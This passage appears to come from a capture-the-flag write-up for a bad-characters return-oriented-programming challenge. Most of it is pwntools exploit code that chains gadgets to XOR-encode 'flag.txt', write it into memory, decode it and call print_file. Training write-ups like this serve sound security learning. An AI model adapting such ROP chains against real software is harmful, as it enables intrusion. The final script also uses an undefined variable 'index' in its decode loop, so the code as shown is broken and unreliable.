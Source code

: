 ```python
DATA = 0x601028 # .data
POPRDI = p64(0x4006a3) # pop rdi ; ret
RET = p64(0x4004ee) # ret
PRINT_FILE = p64(0x400510) # print_file()

attack += POPRDI + p64(DATA) + RET + PRINT_FILE
```

## Launching the attack

The final code should look something like this:

```python
from pwn import *
...
def extend_byte(byte: int) -> int:
    """
    Extend a byte into a 64-bit integer by duplicating the byte 8 times
    """
    return int("0x" + (hex(byte)[2:4])*8, 16)

# input must be 8 bytes long, key must be between 0 and 255
def encode(input: bytes, key: int, badchars: bytes) -> bytes:
    unencoded = u64(input)
    encoded = p64(unencoded ^ key)
    for badchar in badchars:
        if p8(badchar) in encoded:
            raise ValueError(f"bad byte in final encoded: {encoded}")
    return encoded

BADCHARS = b"xga."
# make sure 1st bit is 1 because all of the badchars don't have a 1 in front
KEY = 0xa9
DATA = 0x601028 # .data
POPR14R15 = p64(0x4006a0) # pop r14 ; pop r15 ; ret
XORBR15R14 = p64(0x400628) # xor byte ptr [r15], r14b ; ret
POPR12R13R14R15 = p64(0x40069c) # pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
MOVR13R12 = p64(0x400634) # mov qword ptr [r13], r12 ; ret
POPRDI = p64(0x4006a3) # pop rdi ; ret
RET = p64(0x4004ee) # ret
PRINT_FILE = p64(0x400510) # print_file()

# STEP 1
ENCODED_1 = encode(b"flag.txt", extend_byte(0xa9), b"xga.")

# STEP 2
attack = b"A"*0x28 + POPR12R13R14R15 + ENCODED_1 + p64(DATA) + b"B"*16
# attack += POPR12R13R14R15 + b"\x00"*8 + p64(DATA+8) + b"JUNK"*4
# r13 -> .data
# r12 -> encoded string
attack += MOVR13R12 # move encoded string into .data

# STEP 3
for i in range(8):
    attack += POPR14R15
    attack += p64(0xa9) # pop the key into r14
    attack += p64(DATA+index) # the memory address of the byte we want to decode
    attack += XORBR15R14 # perform the XOR cipher with r14 as the key and r15 as the memory address

# STEP 4
attack += POPRDI + p64(DATA) + RET + PRINT_FILE

io.sendline(attack)
```